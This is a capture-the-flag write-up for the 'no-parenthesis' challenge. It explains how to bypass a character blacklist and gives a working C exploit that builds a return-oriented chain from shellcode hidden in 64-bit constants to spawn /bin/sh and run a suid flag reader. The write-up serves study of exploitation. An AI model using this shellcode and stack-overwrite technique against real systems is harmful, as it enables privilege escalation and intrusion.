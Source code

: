 # no-parenthesis

We are given `chall.py`, which allows us to provide C code that will be wrapped inside a `main` function and then compiled using gcc with the options `-Werror -Wall -O0`.

The challenge includes a blacklist: `{}()#%?` which eliminates function calls, casting, includes, important digraphs, and escaping from the main function.

On top of that, we're given a suid `readflag` binary which means that our goal is to get a shell and run `readflag`.

The idea to solve this challenge is to just use ROP and then use 64-bit consts to write out our own custom shellcode. We can get the addresses for our snippets of shellcode by using the double ampersand (`&&`) on a label name, and then adjusting the offset to be on our shellcode instead of the `movabs` instruction. You also have to be careful to not trigger any warnings, it's can get pretty annoying.

Here's the C code to achieve this:

```c
int main() {
    p1: long long a = 0xc33bb0c031; // xor eax, eax; mov al, 0x3b;
    long long* overflow[1];
    overflow[0]=&a;
    p2: a = 0x50f5fd231f631; // xor esi, esi; xor edx, edx; pop rdi; syscall;
    p3: a = 0x68732f6e69622f; // /bin/sh

    overflow[3] = &&p1 + 2;
    overflow[4] = &&p2 + 2;
    overflow[5] = &&p3 + 2;

    return **overflow;
}
```

Refer to [solve.py](solve.py) for the solution.
